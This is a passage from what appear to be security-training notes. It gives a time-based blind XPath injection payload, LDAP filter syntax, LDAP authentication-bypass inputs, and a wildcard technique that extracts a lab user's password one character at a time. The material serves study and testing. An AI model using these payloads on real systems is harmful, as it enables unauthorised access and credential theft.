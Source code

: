 ```xpath
count((//.)[count((//.))])
```

Determine whether the first letter of the "username" is "a" based on the time it takes: if it is, the query will utilize a significant processing time, otherwise, it won't.

```xpath
invalid' or substring(/users/user[1]/username,1,1)='a' and count((//.)[count((//.))]) and '1'='1
```

## LDAP Injection

#### LDAP Search Filter Syntax

|Name|Operand|Example|Example Description|
|---|---|---|---|
|Equality|`=`|`(name=Kaylie)`|Matches all entries that contain a `name` attribute with the value `Kaylie`|
|Greater-Or-Equal|`>=`|`(uid>=10)`|Matches all entries that contain a `uid` attribute with a value greater-or-equal to `10`|
|Less-Or-Equal|`<=`|`(uid<=10)`|Matches all entries that contain a `uid` attribute with a value less-or-equal to `10`
|Approximate Match|`~=`|`(name~=Kaylie)`|Matches all entries that contain a `name` attribute with approximately the value `Kaylie`|
|And|`(&()())`|`(&(name=Kaylie)(title=Manager))`|Matches all entries that contain a `name` attribute with the value `Kaylie` and a `title` attribute with the value `Manager`|
|Or|<code>(&#124;()())</code>|<code>(&#124;(name=Kaylie)(title=Manager))</code>|Matches all entries that contain a `name` attribute with the value `Kaylie` or a `title` attribute with the value `Manager`|
|Not|`(!())`|`(!(name=Kaylie))`|Matches all entries that contain a `name` attribute with a value different from `Kaylie`|
|True|`(&)`|`(&)`|Universal True|
|False|<code>(&#124;)</code>|<code>(&#124;)</code>|Universal False|
|Wildcard|`*`|`(name=*a*)`|Matches all entries that contain a name attribute that contains an `a`|


#### Authentication Bypass

|Description|Username|Password|Search Filter|
|---|---|---|---|
|Regular Authentication|`admin`|`admin`|`(&(uid=admin)(userPassword=admin))`|
|Wildcard Bypass|`*`|`*`|`(&(uid=*)(userPassword=*))`|
|Wildcard Bypass targeting specific user|`admin*`|`*`|`(&(uid=admin*)(userPassword=*))`|
|Universal True Bypass|<code>admin)(&#124;(&#x26;</code>|`invalid)`|<code>(&#x26;(uid=admin)(&#124;(&#x26;)(userPassword=invalid)))</code>|


#### Data Exfiltration

Brute-Force data character-by-character:

|Username|Password|Query|
|---|---|---|
|`htb-stdnt`|`*`|`(&(uid=htb-stdnt)(userPassword=*))`|
|`htb-stdnt`|`p*`|`(&(uid=htb-stdnt)(userPassword=p*))`|
|`htb-stdnt`|`p@*`|`(&(uid=htb-stdnt)(userPassword=p@*))`|
|`htb-stdnt`|`p@s*`|`(&(uid=htb-stdnt)(userPassword=p@s*))`|
|`htb-stdnt`|`p@ss*`|`(&(uid=htb-stdnt)(userPassword=p@ss*))`|
|`htb-stdnt`|`p@ssw*`|`(&(uid=htb-stdnt)(userPassword=p@ssw*))`|
|`htb-stdnt`|`p@ssw0*`|`(&(uid=htb-stdnt)(userPassword=p@ssw0*))`|